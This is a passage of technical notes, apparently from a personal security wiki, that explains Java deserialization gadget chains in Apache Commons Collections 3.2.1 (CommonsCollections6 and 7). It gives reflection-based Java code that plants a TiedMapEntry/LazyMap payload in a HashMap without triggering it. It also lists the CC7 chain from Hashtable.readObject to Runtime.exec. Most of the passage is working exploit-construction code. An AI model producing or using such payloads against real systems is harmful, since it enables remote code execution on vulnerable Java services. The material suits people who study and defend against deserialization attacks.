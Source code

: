 Step into `hash()`:
```java
static final int hash(Object key) {  
    int h;  
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);  
}
```
If key is a `TiedMapEntry`, then the common exploitation chain takes effect.

So the next step is to put a `TiedMapEntry` into hash map. 
To avoid contaminating `LazyMap` during payload creation, **we should not just call  `map.put` to insert node**. In order to avoid calling `hash(entry)`, there are two alternative ways: by `putVal()` or directly inserting node into underlying hash table(later is what ysoserial does). Let's reproduce the former way(`putVal`). 
```java
final Map innerMap = new HashMap();  
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);  
TiedMapEntry entry = new TiedMapEntry(lazyMap, "padishah");  
  
HashMap map = new HashMap();  
Method putMethod = null;  
int JDK_VERSION = -1;  
try {  
    putMethod = HashMap.class.getDeclaredMethod("putVal", int.class, Object.class, Object.class, boolean.class, boolean.class);  
    JDK_VERSION = 8;  
} catch (NoSuchMethodException e) {  
    putMethod = HashMap.class.getDeclaredMethod("addEntry", int.class, Object.class, Object.class, int.class);  
    JDK_VERSION = 7;  
}  
putMethod.setAccessible(true);  
int hash = transformerChain.hashCode();// a random hashcode  
if (JDK_VERSION == 8) {  
    putMethod.invoke(map, hash, entry, "value", false, true);  
} else {  
    putMethod.invoke(map, hash, entry, "value", 0);  
}  
Reflections.setFieldValue(transformerChain, "iTransformers", transformers);  
return map;
```
^CC6-1
Note that, `HashMap` for JDK1.7 adds node in a different way from that of JDK1.8. JDK1.7 use `addEntry` in replacement of `putVal`.

### CommonCollections7 jdk1.8 1.7


> [!NOTE] pre-requirements
> JDK1.7 or 1.8, only reproduced on JDK1.8
> commons-collections:commons-collections:3.2.1

```java
//Gadget chain:
java.util.Hashtable.readObject  
java.util.Hashtable.reconstitutionPut  
org.apache.commons.collections.map.AbstractMapDecorator.equals  
java.util.AbstractMap.equals  
org.apache.commons.collections.map.LazyMap.get  
org.apache.commons.collections.functors.ChainedTransformer.transform  
org.apache.commons.collections.functors.InvokerTransformer.transform  
java.lang.reflect.Method.invoke  
sun.reflect.DelegatingMethodAccessorImpl.invoke  
sun.reflect.NativeMethodAccessorImpl.invoke  
sun.reflect.NativeMethodAccessorImpl.invoke0  
java.lang.Runtime.exec
```

[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)
